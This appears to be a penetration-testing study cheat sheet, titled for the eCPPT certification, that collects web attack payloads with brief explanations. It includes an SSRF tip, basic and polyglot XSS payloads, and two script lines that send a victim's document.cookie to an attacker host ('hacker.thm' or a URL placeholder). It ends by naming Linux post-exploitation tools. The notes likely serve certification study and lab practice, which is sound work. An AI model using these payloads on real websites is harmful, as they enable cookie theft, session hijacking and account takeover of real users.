 ## eCPPT Tools


SSRF Example

```
In this example, the attacker can control the server's subdomain to which the request is made. Take note of the payload ending in &x= being used to stop the remaining path from being appended to the end of the attacker's URL and instead turns it into a parameter (?x=) on the query string. Next
```

XSS Example

```
<script>alert('XSS');</script>

```

Cookie stealing
```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>

```

Closign the input tag
```
The important part of the payload is the "> which closes the value parameter and then closes the input tag.

```

Polyglots

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e

```

Fetch Cookie using Javascript

```
</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>

```



# Post Exploitation Linux

* 3snake
* Bettercap


